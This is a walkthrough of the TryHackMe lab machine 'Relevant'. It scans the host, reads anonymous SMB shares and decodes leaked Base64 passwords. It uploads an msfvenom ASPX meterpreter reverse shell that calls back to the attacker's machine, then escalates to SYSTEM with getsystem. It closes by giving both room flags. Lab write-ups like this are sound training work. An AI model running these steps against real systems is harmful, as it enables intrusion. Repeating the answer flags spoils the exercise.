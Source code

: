 
# Relevant CTF Walkthrough

Relevant is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/Relevant<br />
THM Difficulty: Medium<br />
My Difficulty: Easy<br />
Target IP: 10.10.39.76<br />
AttackBox IP: 10.10.153.77<br />
</i>

# Enumeration

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flag -sV to find the service versions on the open ports.<br />
```shell
nmap -sV -sC -p80,135,139,445,3389,5985,49663,49667,49669 10.10.39.76
```
```shell
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-08 18:21 GMT
Nmap scan report for ip-10-10-39-76.eu-west-1.compute.internal (10.10.39.76)
Host is up (0.0054s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-03-07T18:16:50
|_Not valid after:  2023-09-06T18:16:50
|_ssl-date: 2023-03-08T18:21:59+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:A8:11:CA:08:F3 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 02:a8:11:ca:08:f3 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-08T10:21:59-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-08 18:21:59
|_  start_date: 2023-03-08 18:17:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.63 seconds
```
We have found a few open ports with different services, let's try to find some vulnerabilities!

## SMB Service Enumeration

### Nmap SMB-enum scripts

Firstly we'll try using the SMB-enum scripts on Nmap<br />
```shell
nmap -p 139,445 -Pn -script smb-enum* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT7.png?raw=true)<br />
Interesting, we have read/write access on this share... We'll try to use that to exploit the service if we can't find anything else.<br />

### Nmap SMB-vuln scripts

Let's do the same thing but with the SMB vuln scripts to see if there are any vulnerabilities.<br />
```shell
nmap -p 139,445 -Pn -script smb-vuln* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT6.png?raw=true)<br />
Bingo! It looks like the SMB server is vulnerable to MS17-010. We'll enumerate more then exploit this!<br />

### Listing SMB shares

Let's have a look at the SMB service, we'll try to list the shares on the system to see if we can access anything.<br />
```shell
smbclient -L 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT2.png?raw=true)<br />

### Listing files on SMB shares

We were able to list the shares without entering a password and it looks like we have access to the share "nt4wrksv". Let's try connecting to the share now and listing the contents.<br />
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
ls
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT3.png?raw=true)<br />
Ooh a file named ```passwords.txt``` let's download the file and have a look inside...
```shell
get passwords.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT4.png?raw=true)<br />
Inside we see two passwords that have been encoded... Looks like Base64 to me, let's try decoding them!<br />

Awesome! We have two accounts now.<br />

#Exploitation


## MS17-010 Remote Code Execution

We're going to use Metasploit to exploit the vulnerability, let's fire it up.<br />
```shell
msfconsole
```
Once we have Metasploit open we're going to select the module to use and then set the required options.<br />
```shell
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.39.76
set SMBUser Bill
set SMBPass Juw4nnaM4n420696969!$$$
exploit
```
... Damn that didn't work... Nevermind let's try something else!<br />

## Exploiting SMB Permissions

Earlier when we performed our Nmap scan with default scripts enabled, we saw that we had read/write permissions on the nt4wrksv share. Let's create a reverse shell with msfvenom.<br />
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.153.77 LPORT=4444 -f aspx > shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT8.png?raw=true)<br />
Now let's upload it to the SMB share.
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
put shell.aspx
```
Before getting the shell to run, we'll need to start our meterpreter reverse_tcp listener! Let's load up Metasploit to do this.<br />
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.153.77
set LPORT 4444
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT9.png?raw=true)<br />
Now we have our listener, let's run the shell. We head over to our web browser and execute the shell.<br />
```shell
http://10.10.39.76:49663/nt4wrksv/shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT10.png?raw=true)<br />
Success! Now we have our reverse meterpreter shell. (The target box crashed so I had to restart it, it's a new IP if you didn't notice.)<br />

# Escalating Privileges

Let's check what user we're on and then spawn a shell and check our privileges.<br />
```shell
getuid
shell
whoami /priv
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT11.png?raw=true)<br />
Interesting... SeImpersonatePrivilege is enabled. We can use meterpreter to automatically elevate our privileges.<br />

Let's close our shell with Ctrl+C and use meterpreter to execute the following<br />
```shell
getsystem
getuid
```
Awesome! We have successfully elevated our privileges. Let's get the root flag and complete the box.<br />
```shell
cd C:/Users/Administrator/Desktop
cat root.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT12.png?raw=true)<br />


## Questions & Answers

Question 1:<br />
**What is the user flag?** THM{fdk4ka34vk346ksxfr21tg789ktf45}<br />

Question 2:<br />
**What is the root flag?** THM{1fk5kf469devly1gl320zafgl345pv}<br />

### Farewell, I hope you all enjoyed this write-up!

